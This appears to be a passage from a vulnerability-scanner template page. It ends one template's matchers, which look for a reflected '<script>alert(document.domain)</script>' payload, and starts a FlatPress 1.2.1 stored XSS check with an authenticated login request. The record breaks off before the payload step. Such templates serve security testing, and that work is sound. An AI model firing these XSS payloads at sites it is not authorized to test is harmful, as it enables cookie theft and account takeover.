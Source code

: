 ### Matchers

**Type - dsl**

- dsl
  1. contains(all_headers_2, "text/html")
  2. status_code_2 == 200
  3. contains(body_2, 'Result against \"\<script>alert(document.domain)\</script>\" keyword')
- condition - and

---

# FlatPress 1.2.1 - Stored Cross-Site Scripting

## Description

- FlatPress 1.2.1 contains a stored cross-site scripting vulnerability that allows for arbitrary execution of JavaScript commands through blog content. An attacker can steal cookie-based authentication credentials and launch other attacks. Note: this is similar to CVE-2021-41432, however this attack uses the "page" parameter.

- severity - medium
- tags - flatpress,xss,authenticated,oss

## Requests

### Step - 1

```
POST /login.php HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykGJmx9vKsePrMkVp

------WebKitFormBoundarykGJmx9vKsePrMkVp
Content-Disposition: form-data; name="user"

{{username}}
------WebKitFormBoundarykGJmx9vKsePrMkVp
Content-Disposition: form-data; name="pass"

{{password}}
------WebKitFormBoundarykGJmx9vKsePrMkVp
Content-Disposition: form-data; name="submit"

Login
------WebKitFormBoundarykGJmx9vKsePrMkVp--

```

### Step - 2

